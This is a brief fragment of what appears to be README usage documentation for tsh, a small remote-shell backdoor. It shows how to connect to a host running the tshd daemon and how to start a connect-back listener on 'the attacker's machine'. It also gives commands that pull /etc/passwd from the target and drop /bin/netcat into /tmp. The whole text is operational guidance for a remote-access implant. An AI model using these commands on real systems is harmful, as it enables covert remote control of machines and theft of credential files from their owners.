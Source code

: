 `./tsh host_ip`

If tsh was compiled with backconnect capability, the `tshd` daemon will try to connect back to the attacker's machine. To launch listener on attacker's side:

```
$ ./tsh cb
Waiting for the server to connect...
```
To transfer files with tsh:

```
./tsh host_ip get /etc/passwd .
./tsh host_ip put /bin/netcat /tmp
```

